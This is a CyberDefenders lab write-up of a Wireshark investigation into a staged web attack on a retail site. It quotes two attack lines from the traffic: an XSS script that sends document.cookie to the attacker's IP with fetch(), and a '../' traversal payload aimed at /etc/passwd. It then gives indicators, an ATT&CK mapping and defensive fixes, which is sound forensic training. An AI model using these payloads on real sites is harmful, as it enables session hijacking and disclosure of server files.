# CyberDefenders – RetailBreach

## Lab Overview

This investigation examines suspicious activity against ShopSphere, an online retail platform. The scenario reports unusual administrative access and customer account anomalies. I analyzed the provided `RetailBreach.pcap` in Wireshark to identify the attacker, understand the initial reconnaissance, trace the XSS-based session theft, and follow the attacker’s subsequent access to administrative functionality and a sensitive server file.

**Investigation scope:** endpoint identification, HTTP request analysis, directory brute-forcing, stored XSS, session-cookie theft, unauthorized administrative access, and directory traversal / local file disclosure.

**Tools used:** Wireshark and HTTP stream inspection.

> **Evidence note:** The findings below are based on the packets and screenshots reviewed during the lab. The session token is a lab artifact and should be treated as compromised. The capture demonstrates the requests and responses observed; it does not by itself establish what data, if any, was successfully exfiltrated beyond the visible evidence.

## Executive Summary

The traffic shows an attacker at `111.224.180.128` communicating with the ShopSphere web server at `73.124.17.52`. The attacker used Gobuster to enumerate web paths, then submitted a malicious review containing a JavaScript payload to `reviews.php`. The payload attempted to send the visitor’s `document.cookie` to the attacker-controlled host.

A subsequent visit to the affected reviews page by the administrative user at `135.143.142.5` exposed the PHP session cookie in the request. The attacker later reused the captured session token to access administrative pages, including the dashboard, review manager, and log viewer. The attacker then supplied a path-traversal payload targeting `/etc/passwd` through `log_viewer.php`.

## Investigation Findings

### 1. Identify the Attacker IP Address

I started by reviewing the IPv4 endpoints using **Statistics → Endpoints → IPv4**. Three addresses were visible:

| IP address | Observed role |
|---|---|
| `73.124.17.52` | ShopSphere web server |
| `111.224.180.128` | Attacker host |
| `135.143.142.5` | Administrative user's client |

The endpoint statistics showed that most of the relevant communication occurred between `73.124.17.52` and `111.224.180.128`. To distinguish the server from the remote client, I inspected the HTTP traffic and followed an HTTP stream. The host at `73.124.17.52` responded as the web server for `shopsphere.com`, including an Apache HTTP response. This established that `73.124.17.52` was the server and `111.224.180.128` was the external source performing the suspicious activity.

**Answer:** `111.224.180.128`







### 2. Identify the Directory-Brute-Forcing Tool

I filtered traffic originating from the suspected attacker:

```wireshark
ip.src == 111.224.180.128
```

The packet list showed numerous requests for likely hidden paths and common directories, including paths such as `/.svn`, `/.swf`, `/.web`, `/_adm`, `/_ajax`, `/_admin`, `/_archive`, and other guessed locations. This repetitive pattern is consistent with directory and content discovery rather than normal browsing.

I then inspected the HTTP request headers in a stream. The User-Agent identified the tool as `gobuster/3.6`.

**Answer:** `Gobuster`





### 3. Identify the XSS Payload

To locate the malicious review submission, I used the following display filter:

```wireshark
http.request.method == "POST" and http contains "script"
```

The filter isolated a POST request to `/reviews.php`. Following the HTTP stream showed the review parameter containing URL-encoded JavaScript:

```text
review=%3Cscript%3Efetch%28%27http%3A%2F%2F111.224.180.128%2F%27+%2B+document.cookie%29%3B%3C%2Fscript%3E
```

After URL decoding, the payload was:

```javascript
<script>fetch('http://111.224.180.128/' + document.cookie);</script>
```

The script uses the Fetch API to send the browser's `document.cookie` value to the attacker's host. This is consistent with an attempt to steal the victim's session cookie. The payload was submitted through the review functionality and later appeared in the page content, indicating a stored XSS path in the lab scenario.

**Answer:**
```html
<script>fetch('http://111.224.180.128/' + document.cookie);</script>
```





### 4. Determine When the Administrator First Visited the Injected Page

After identifying `reviews.php` as the page containing the injected script, I filtered the capture for requests and responses containing that page:

```wireshark
http contains "reviews.php"
```

The packet list showed a request from `135.143.142.5` to the ShopSphere server at:

```text
2024-03-29 12:09:50.869688
```

Following the corresponding HTTP stream showed the administrator's request to `/reviews.php`, followed by an HTTP 200 response. The response body contained the injected JavaScript in the reviews page. The HTTP response Date header showed `Fri, 29 Mar 2024 12:09:51 GMT`, corroborating the time to the nearest second.

**Answer (UTC):** `2024-03-29 12:09:50.869688 UTC`  
**HTTP response Date header:** `2024-03-29 12:09:51 GMT`







### 5. Identify the Session Token Used for Unauthorized Access

The administrator's request to `reviews.php` included a PHP session cookie in the HTTP request headers:

```http
Cookie: PHPSESSID=lqkctf24s9h9lg67teu8uevn3q
```

Because the injected script accessed `document.cookie` and sent it to the attacker-controlled address, this session identifier was exposed to the attacker through the XSS behavior. I then used the token value as a Wireshark search pivot:

```wireshark
http contains "lqkctf24s9h9lg67teu8uevn3q"
```

The matching traffic showed subsequent requests from `111.224.180.128` to administrative endpoints. This correlation supports that the attacker reused the administrator's session token to access the application.

**Answer:** `lqkctf24s9h9lg67teu8uevn3q`



### 6. Identify the Script Exploited by the Attacker

After pivoting on the stolen session token, I reviewed the subsequent HTTP requests from the attacker to the ShopSphere server. The requests included administrative functionality such as:

- `/admin/dashboard.php`
- `/admin/review_manager.php`
- `/admin/log_viewer.php`
- `/admin/log_viewer.php?file=error.log`

The log viewer endpoint became particularly important because it accepted a filename through the `file` parameter. This parameter later appeared with a path-traversal sequence targeting a file outside the intended log directory.

**Answer:** `log_viewer.php`



### 7. Identify the Payload Used to Access a Sensitive System File

The post-authentication traffic included a request to the log viewer with a traversal payload in the `file` parameter:

```http
GET /admin/log_viewer.php?file=../../../../../etc/passwd HTTP/1.1
```

The sequence of `../` path components attempts to move upward through the directory hierarchy until it reaches the filesystem root, then access `/etc/passwd`. This is a directory traversal / local file disclosure attempt through the application's log viewer functionality.

**Answer:** `../../../../../etc/passwd`


## Attack Chain

1. **Reconnaissance:** The attacker at `111.224.180.128` enumerated web directories using Gobuster.
2. **Initial application compromise:** A malicious review was submitted to `reviews.php` with a JavaScript payload designed to transmit `document.cookie` to the attacker.
3. **Victim interaction:** The administrator at `135.143.142.5` visited the affected reviews page at approximately `2024-03-29 12:09:51 UTC`.
4. **Session theft:** The administrator's PHP session identifier was exposed in the request and targeted by the injected script.
5. **Unauthorized access:** The attacker reused the session token and accessed administrative pages.
6. **Sensitive file access attempt:** The attacker targeted `log_viewer.php` with a directory traversal payload referencing `/etc/passwd`.

## Indicators of Compromise

| Type | Indicator | Context |
|---|---|---|
| Attacker IP | `111.224.180.128` | Source of directory enumeration, XSS submission, and subsequent administrative requests |
| Web server IP | `73.124.17.52` | ShopSphere web server |
| Administrator client IP | `135.143.142.5` | Client that visited the injected reviews page |
| Hostname | `shopsphere.com` | HTTP Host header |
| Discovery tool | `Gobuster 3.6` | User-Agent observed during directory enumeration |
| XSS endpoint | `/reviews.php` | Review submission and injected page |
| Session cookie | `PHPSESSID=lqkctf24s9h9lg67teu8uevn3q` | Lab session identifier observed in the administrator request |
| Administrative script | `/admin/log_viewer.php` | Endpoint targeted after session reuse |
| Traversal target | `/etc/passwd` | Sensitive file targeted by the traversal payload |

## MITRE ATT&CK Mapping

| Tactic | Technique | Evidence |
|---|---|---|
| Reconnaissance | [T1595.003 – Active Scanning: Wordlist Scanning](https://attack.mitre.org/techniques/T1595/003/) | Gobuster directory enumeration |
| Initial Access | [T1190 – Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/) | Abuse of the ShopSphere review functionality and subsequent web application exploitation |
| Execution | [T1059.007 – JavaScript](https://attack.mitre.org/techniques/T1059/007/) | JavaScript XSS payload executed in the victim's browser |
| Credential Access | [T1539 – Steal Web Session Cookie](https://attack.mitre.org/techniques/T1539/) | `document.cookie` sent to the attacker-controlled host |
| Initial Access / Defense Evasion | [T1078 – Valid Accounts](https://attack.mitre.org/techniques/T1078/) | Reuse of the captured administrator session to access privileged pages |
| Discovery / Collection | [T1005 – Data from Local System](https://attack.mitre.org/techniques/T1005/) | Attempt to access `/etc/passwd` through the log viewer; successful retrieval should only be claimed if confirmed by the response |

*ATT&CK mappings describe the observed behavior at a high level. The PCAP evidence supports the attempted actions; successful access to the sensitive file is not asserted unless the response body confirms it.*

## Conclusion

The packet capture reveals a web application attack chain against ShopSphere. The attacker first performed directory discovery with Gobuster, then submitted a malicious review containing a JavaScript payload that attempted to exfiltrate browser cookies. When the administrator visited the affected reviews page, the session identifier was exposed. The attacker subsequently reused that session to access administrative functionality and attempted to read a sensitive operating-system file through a vulnerable log-viewing script.

The investigation highlights how seemingly ordinary application features, such as customer reviews and log viewers, can become attack paths when input is not safely handled. It also demonstrates the importance of correlating client IPs, HTTP request methods, User-Agent strings, full HTTP streams, session cookies, timestamps, and subsequent authenticated requests.

## Recommended Defensive Actions

- Encode and sanitize user-generated review content before rendering it; do not allow untrusted input to execute as HTML or JavaScript.
- Deploy a restrictive Content Security Policy as an additional XSS mitigation.
- Set session cookies with `HttpOnly`, `Secure`, and appropriate `SameSite` attributes.
- Rotate and invalidate affected sessions, force re-authentication for administrative users, and review administrative account activity.
- Restrict log-viewing functionality to an allowlisted directory and canonicalize/validate file paths to prevent directory traversal.
- Review web server logs for Gobuster-like enumeration, suspicious POST requests to `reviews.php`, unusual requests to administrative endpoints, and traversal sequences such as `../`.
- Preserve relevant PCAP and server-side logs, and verify whether the `/etc/passwd` request returned file contents.

## Screenshots

Place the evidence images in the adjacent `screenshots/` directory using the filenames referenced throughout this report.
